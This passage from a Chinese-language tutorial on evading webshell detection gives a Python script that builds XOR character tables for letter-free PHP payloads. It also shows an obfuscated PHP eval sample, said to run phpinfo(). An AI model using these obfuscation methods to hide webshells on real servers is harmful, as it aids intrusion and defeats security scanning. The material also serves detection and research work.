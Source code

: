 这里的话，可以参考国光大佬的 Python 脚本生成异或结果，然后来替换即可：`python3 xxx.py > results.txt`

```bash
import string
from urllib.parse import quote

keys = list(range(65)) + list(range(91,97)) + list(range(123,127))
results = []


for i in keys:
    for j in keys:
        asscii_number = i^j
        if (asscii_number >= 65 and asscii_number <= 90) or (asscii_number >= 97 and asscii_number <= 122):
            if i < 32 and j < 32:
                temp = (f'{chr(asscii_number)} = ascii:{i} ^ ascii{j} =  {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)
            elif i < 32 and j >=32:
                temp = (f'{chr(asscii_number)} = ascii:{i} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)
            elif i >= 32 and j < 32:
                temp = (f'{chr(asscii_number)} = {chr(i)} ^ ascii{j} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)
            else:
                temp = (f'{chr(asscii_number)} = {chr(i)} ^ {chr(j)} = {quote(chr(i))} ^ {quote(chr(j))}', chr(asscii_number))
                results.append(temp)

results.sort(key=lambda x:x[1], reverse=False)

for low_case in string.ascii_lowercase:
    for result in results:
        if low_case in result:
            print(result[0])

for upper_case in string.ascii_uppercase:
    for result in results:
        if upper_case in result:
            print(result[0])
```

### 8.2 嵌套运算

其实嵌套运算在 WebShell 免杀中算是常客了，让我们来看一下一个 `phpinfo()` 的嵌套运算

```bash
$O00OO0=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");
$O00O0O=$O00OO0{3}.$O00OO0{6}.$O00OO0{33}.$O00OO0{30};$O0OO00=$O00OO0{33}.$O00OO0{10}.$O00OO0{24}.$O00OO0{10}.$O00OO0{24};$OO0O00=$O0OO00{0}.$O00OO0{18}.$O00OO0{3}.$O0OO00{0}.$O0OO00{1}.$O00OO0{24};$OO0000=$O00OO0{7}.$O00OO0{13};$O00O0O.=$O00OO0{22}.$O00OO0{36}.$O00OO0{29}.$O00OO0{26}.$O00OO0{30}.$O00OO0{32}.$O00OO0{35}.$O00OO0{26}.$O00OO0{30};

eval($O00O0O("JE8wTzAwMD0iU0VCb1d4VGJ2SGhRTnFqeW5JUk1jbWxBS1lrWnVmVkpVQ2llYUxkc3J0Z3dGWER6cEdPUFdMY3NrZXpxUnJBVUtCU2hQREdZTUZOT25FYmp0d1pwYVZRZEh5Z0NJdnhUSmZYdW9pbWw3N3QvbFg5VEhyT0tWRlpTSGk4eE1pQVRIazVGcWh4b21UMG5sdTQ9IjtldmFsKCc/PicuJE8wME8wTygkTzBPTzAwKCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwKjIpLCRPTzBPMDAoJE8wTzAwMCwkT08wMDAwLCRPTzAwMDApLCRPTzBPMDAoJE8wTzAwMCwwLCRPTzAwMDApKSkpOw=="));
```

